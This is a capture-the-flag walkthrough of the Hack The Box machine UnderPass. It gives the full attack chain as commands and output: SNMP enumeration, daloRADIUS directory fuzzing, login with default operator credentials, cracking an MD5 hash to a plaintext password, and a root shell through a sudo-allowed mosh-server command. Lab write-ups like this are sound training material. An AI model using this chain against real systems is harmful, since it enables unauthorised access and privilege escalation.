


# UnderPass

## Description

UnderPass is a machine on the Hack The Box platform. It is rated as an easy machine. The machine is running a SNMP service, which we can use to get some information about the machine. We can then use this information to find a login page for a `daloradius` web server. We can log in as an operator and get the hashed password of a user. We can crack the hash and get the password. We can then log in as the user and get the user flag. We can then escalate our privileges to root by exploiting the `mosh-server` command, which we can run as root without a password.

## Walkthrough

First thing first, and as usual, we start with an nmap scan.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ nmap -Pn -p- --min-rate 2000 -sC -sV -oN nmap-scan.txt 10.10.11.48   

Starting Nmap 7.94 ( https://nmap.org ) at 2025-01-12 19:49 CET
Nmap scan report for 10.10.11.48
Host is up (0.085s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.07 seconds
```

We have two open ports, SSH and HTTP. Let's also run a UDP scan.
It's good to knwo that UDP scans are slower than TCP scans, so we will only scan the top 25 ports.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ sudo nmap -Pn -sU -sV -T3 --top-ports 25 -oN udp-nmap-scan.txt 10.10.11.48
[sudo] password for shimp: 
Starting Nmap 7.94 ( https://nmap.org ) at 2025-01-12 19:51 CET
Nmap scan report for 10.10.11.48
Host is up (0.052s latency).

PORT      STATE  SERVICE      VERSION
53/udp    closed domain
67/udp    closed dhcps
68/udp    closed dhcpc
69/udp    closed tftp
111/udp   closed rpcbind
123/udp   closed ntp
135/udp   closed msrpc
137/udp   closed netbios-ns
138/udp   closed netbios-dgm
139/udp   closed netbios-ssn
161/udp   open   snmp         SNMPv1 server; net-snmp SNMPv3 server (public)
162/udp   closed snmptrap
445/udp   closed microsoft-ds
500/udp   closed isakmp
514/udp   closed syslog
520/udp   closed route
631/udp   closed ipp
998/udp   closed puparp
1434/udp  closed ms-sql-m
1701/udp  closed L2TP
1900/udp  closed upnp
4500/udp  closed nat-t-ike
5353/udp  closed zeroconf
49152/udp closed unknown
49154/udp closed unknown
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```

We have a SNMP service running on port 161. SNMP is a protocol used to monitor and manage network devices. We can use `snmpwalk` to enumerate the SNMP service.

In this case, we will use the `public` community string, which is the default community string for SNMP. A community string is a simple form of password protection for SNMP. It is sent in clear text between a manager and an agent. The community string is used to authenticate messages sent between the manager and the agent.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ snmpwalk -c public -v 1 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (592186) 1:38:41.86
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
```

We get here some information about the machine. The interesting part is the email address `steve@underpass.htb` and the fact that the machine is a `daloradius` server (The only one ??).

Let's try to fuzz the daloradius web server.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.11.48/daloradius/FUZZ        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.48/daloradius/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 56ms]
    * FUZZ: app

[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 57ms]
    * FUZZ: library

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 53ms]
    * FUZZ: doc

[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 53ms]
    * FUZZ: contrib

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 85ms]
    * FUZZ: setup
```

The most interesting directory is `app`. Let's do some more fuzzing on this directory.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.11.48/daloradius/app/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.48/daloradius/app/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 58ms]
    * FUZZ: common

[Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 53ms]
    * FUZZ: users

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 62ms]
    * FUZZ: 

[Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 48ms]
    * FUZZ: operators
```

The `users` directory is interesting. Let's check manually if a login page is available.

Bingo ! We have a login page.



Trying to login with the default credentials `administrator:radius` (found on the internet) does not work, but while looking at the [daloradius GutHub page](https://github.com/lirantal/daloradius), I found another login endpoint `operators/login.php`. Let's try to login with the default credentials.

IT WORKS ! We are logged in as an operator.



Going to the `Users` tab, we can see a unique user *svcMosh*, with a hashed password `412DD4759978ACFCC81DEAB01B382403`.

Using our favorite website [CrackStation](https://crackstation.net/), we can crack the hash and get the password.

We have now a new set of credentials `svcMosh:underwaterfriends`.

I think that it is now time to try to login with SSH.

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/machines/UnderPass]
└─$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jan 12 07:57:31 PM UTC 2025

  System load:  0.05              Processes:             236
  Usage of /:   52.8% of 6.56GB   Users logged in:       2
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Jan 12 18:27:55 2025 from 127.0.0.1
svcMosh@underpass:~$ 
```

We are in. Let's get the user flag.

```bash
svcMosh@underpass:~$ ls
exploit.sh  user.txt
svcMosh@underpass:~$ cat user.txt
```

We have the user flag.

Let's now try to escalate our privileges to root.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

These lines tell us that we can run the `mosh-server` command as root without a password. Let's check if we can exploit this.

**MosH** is a remote terminal application that allows roaming, supports intermittent connectivity, and provides intelligent local echo and line editing of user keystrokes. Mosh is a replacement for SSH. It's more robust and responsive, especially over Wi-Fi, cellular, and long-distance links.

We can use this to spawn a shell as root.

```bash
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost
```

We are now root.

```bash
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jan 12 08:02:16 PM UTC 2025

  System load:  0.0               Processes:             239
  Usage of /:   52.9% of 6.56GB   Users logged in:       2
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@underpass:~# ls
root.txt
```

We now have the root flag!

Thank you for reading this walkthrough. I hope you enjoyed it.

## Conclusion

This machine was fun to do, and I now understand it's name, UnDerPass. All was in the UDP scan and the SNMP enumeration. The rest was pretty straightforward. Like always, the key is to enumerate, enumerate, and enumerate.
If you have any questions or feedback, please feel free to [send me an email](mailto:cherifjebali0301@gmail.com). Thank you for reading!

This report was written by Cherif Jebali. You can find me on [LinkedIn](https://www.linkedin.com/in/cherif-jebali-a248a1241/).